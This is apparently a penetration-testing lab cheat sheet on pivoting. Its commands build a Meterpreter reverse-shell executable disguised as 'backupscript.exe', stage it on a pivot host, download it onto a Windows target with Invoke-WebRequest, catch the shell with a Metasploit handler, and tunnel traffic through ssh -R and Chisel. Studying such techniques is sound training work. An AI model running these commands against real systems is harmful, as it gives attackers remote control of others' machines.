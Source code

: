 
[Meterpreter](5%20Lateral%20Movement/Pivoting/Tools/Meterpreter.md)

When you want to forward a local service to the remote host 
Might be useful in the case of reverse shells 

# Meterpreter 
Create meterpreter shells on windows
1. create payload using msfvenom 
2. configuration
	1. lhost = IP address of pivot host 
	2. LPORT = 8080 (on lhost)

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

transfer payload to pivot host
```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

listener (on our attack host)
```
msf6> use exploit/multi/handler

set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 8000
run
```

starting a webserver on pivot host
```
python3 -m http.server 8123
```

download payload on target host
```powershell-session
Invoke-WebRequest -Uri "http://<pivot host internal address>:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

port forward the pivot target 8080 to our listening connecting on 8000 on our attack host
```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 username@<ipAddressofTarget> -vN

ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.224.171 -vN
```
you need to give it a while for it to work

# Chisel 
on attack host
```
sudo ./chisel server --reverse -v -p 1234 --socks5
```
on pivot 
```
./chisel client -v 10.10.14.17:1234 R:socks
```
check proxychain conf to make sure it is socks5 and port1080